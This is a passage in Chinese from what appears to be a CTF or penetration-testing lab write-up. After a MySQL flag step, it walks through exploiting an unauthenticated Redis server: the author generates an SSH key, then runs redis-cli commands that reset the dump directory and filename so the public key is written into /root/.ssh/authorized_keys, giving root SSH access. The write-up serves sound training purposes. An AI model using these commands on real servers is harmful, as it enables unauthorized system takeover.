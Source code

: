 就能成功连接mysql，找到中间部分的flag

![](./images/image-8.png)

最后就只剩下redis的部分了

思路：先在自己的主机上生成公[私钥](https://so.csdn.net/so/search?q=%E7%A7%81%E9%92%A5&spm=1001.2101.3001.7020)对，利用redis的数据备份功能，将自己的公钥写入到目标服务器的/etc/authorized\_keys中，然后使用ssh的私钥直接登录目标服务器。

首先在自己的kali上生成公私钥

```
ssh-keygen -t rsa
#然后会出现几个空让你填，直接全部回车就好
#在/root/.ssh 目录下会生成两个文件，一个是key 一个是key.pub（公钥
#记得复制这个公钥
```

然后redis有个未授权访问漏洞，但是只能写文件，不能读取

我们的目的就是要将我们自己的公钥写入redis

在kali端执行👇

```
proxychains4 redis-cli -h 172.20.0.2
```

进入交互，写入公钥👇

```
config set dir /root/.ssh
config set dbfilename authorized_keys
set key "\n\n生成的公钥\n\n"
save
#每条命令执行完后都应该是OK，如果错了就重来
```
